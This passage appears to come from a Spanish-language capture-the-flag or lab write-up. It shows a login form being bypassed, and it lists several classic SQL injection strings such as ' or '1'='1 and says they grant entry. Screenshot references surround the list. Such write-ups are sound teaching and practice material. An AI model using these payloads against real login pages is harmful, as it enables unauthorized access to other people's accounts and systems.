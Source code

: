 
Si probamos login bypass SQL como;

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
```

<p align="center">
    <img src="../img/Pasted_image_20250102204120.png" width="500">
</p>

Entraríamos sin problema.

<p align="center">
    <img src="../img/Pasted_image_20250102204204.png" width="500">
</p>

